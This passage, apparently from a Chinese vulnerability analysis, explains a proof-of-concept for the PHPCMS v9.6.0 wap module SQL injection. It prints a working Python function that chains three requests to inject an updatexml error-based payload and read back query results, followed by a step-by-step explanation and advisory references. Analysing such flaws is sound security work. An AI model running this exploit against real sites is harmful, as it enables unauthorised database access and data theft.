 ## 4.&emsp;简析利用POC ##

**主要函数代码如下：**

	def sqli(host):
	    try:
	        url1 = '{}/index.php?m=wap&c=index&a=init&siteid=1'.format(host)
	        s = requests.Session()
	        req = s.get(url1)
	        flag = raw_input("Input your SQL Injection:")
	        flag = urllib.quote(flag)
	        url2 = '{}/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28{}%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26'.format(
	                host, flag)
	        cookies = requests.utils.dict_from_cookiejar(s.cookies)['svyko_siteid']
	        data = {"userid_flash": cookies}
	        r = s.post(url=url2, data=data)
	        a_k = r.headers['Set-Cookie'][61:]
	        url3 = '{}/index.php?m=content&c=down&a_k={}'.format(host, a_k)
	        if re.search(check_response, str(s.get(url3).content)) is not None:
	            print re.search(check_response, str(s.get(url3).content)).group()
	    except:
	        print 'requests error.'
	        pass

该函数主要实现三步：

1. 通过传入参数host构造第一个url：` url1 = '{}/index.php?m=wap&c=index&a=init&siteid=1'.format(host)`，发送get请求，获取cookie。
2. 通过手动输入自己的SQL注入语句构造url2：

		flag = raw_input("Input your SQL Injection:")
        flag = urllib.quote(flag)
        url2 = '{}/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28{}%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26'.format(
                host, flag)
并且把url1中获取的cookie在url2构造post请求中以data参数形式进行传参。
3. 把url2中获取的set-cookie参数值作为url3中`url3 = '{}/index.php?m=content&c=down&a_k={}'.format(host, a_k)`a_k的参数值进行输入得到回显，获取sql注入返回结果。

## 5.&emsp;参考资料 ##

* [phpcms v9.6.0 wap模块 SQL注入分析](https://xianzhi.aliyun.com/forum/mobile/read/1491.html "https://xianzhi.aliyun.com/forum/mobile/read/1491.html")
* [PHPCMS v9.6.0 wap模块 SQL注入](http://paper.seebug.org/275/ "http://paper.seebug.org/275/")
* [PHPCMS v9 wap模块 SQL注入](https://www.seebug.org/vuldb/ssvid-92929 "https://www.seebug.org/vuldb/ssvid-92929")